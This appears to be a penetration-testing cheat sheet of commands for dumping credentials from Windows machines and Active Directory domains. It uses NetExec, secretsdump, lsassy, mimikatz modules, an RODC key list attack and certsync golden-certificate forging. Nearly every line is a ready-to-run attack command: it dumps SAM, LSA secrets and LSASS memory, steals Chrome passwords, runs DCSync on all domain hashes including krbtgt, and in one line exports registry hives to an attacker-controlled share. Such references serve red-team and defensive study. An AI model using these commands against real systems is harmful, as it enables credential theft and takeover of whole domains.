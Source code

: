 # Various python tools to dump credentials remotely

## 1) Check RunAsPPL

Check if RunAsPPL is enabled in the registry

    nxc smb <target> -u user1 -p password -M runasppl

## 2) Dump credentials remotely

##### Dump SAM database on a machine

    nxc smb <target> -u user1 -p password --sam

##### Dump LSA secrets on a machine

    nxc smb <target> -u user1 -p password --lsa
    
##### In a PDF with LSA_reg2pdf, exec get_pdf, and get_bootkey on your host to parse the PDF

    .\get_pdf.exe 1
    python3 get_bootkey.py

##### Dump through remote registry

    reg.py -o \\<attacker_IP>\share domain.local/user1:password@<target> backup
    reg.py domain.local/user1:password@<target> query -keyName 'HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\WinLogon'

##### Dump with an alternative method, regsecrets.py, more discreet

    regsecrets.py domain.local/user1:password@target.domain.local

##### Dump the lsass process and parse it

    nxc smb <target> -u user1 -p password -M lsassy
    nxc smb <target> -u user1 -p password -M nanodump
    nxc smb <target> -u user1 -p password -M mimikatz
    nxc smb <target> -u user1 -p password -M procdump

    lsassy -u user1 -p password -d domain.local <target>

    minidump domain.local/user1:password@dc.domain.local:/C$/Windows/Temp/lsass.dmp

##### Retrieve Chrome passwords

    nxc smb <target> -u user1 -p password -M enum_chrome

##### Make a DCSync attack on all the users (NT hashes, Kerberos AES key, etc)

    secretsdump.py domain.local/user1:password@<DC>
    nxc smb <target> -u user1 -p password --ntds

##### DCSync only the NT && LM hashes of a user

    secretsdump.py -just-dc-user 'krbtgt' -just-dc-ntlm domain.local/user1:password@<DC>

##### Retrieve NT hashes via Key List Attack on a RODC
##### Attempt to dump all the users' hashes even the ones in the Denied list
##### Low privileged credentials are needed in the command for the SAMR enumeration

    keylistattack.py -rodcNo <krbtgt_number> -rodcKey <krbtgt_aes_key> -full domain.local/user1:password@RODC-server
    
##### Attempt to dump a specific user's hash

    keylistattack.py -rodcNo <krbtgt_number> -rodcKey <krbtgt_aes_key> -t user1 -kdc RODC-server.domain.local LIST

##### Certsync - retrieve the NT hashes of all the users with PKINIT
##### Backup the private key and the certificate of the Root CA, and forge Golden Certificates for all the users
##### Authenticate with all the certificate via PKINIT to obtain the TGTs and extract the hashes with UnPAC-The-Hash

    certsync -u administrator -p 'password' -d domain.local -dc-ip <DC_IP>

##### Provide the CA .pfx if it has been obtained with another way

    certsync -u administrator -p 'password' -d domain.local -dc-ip <DC_IP> -ca-pfx CA.pfx
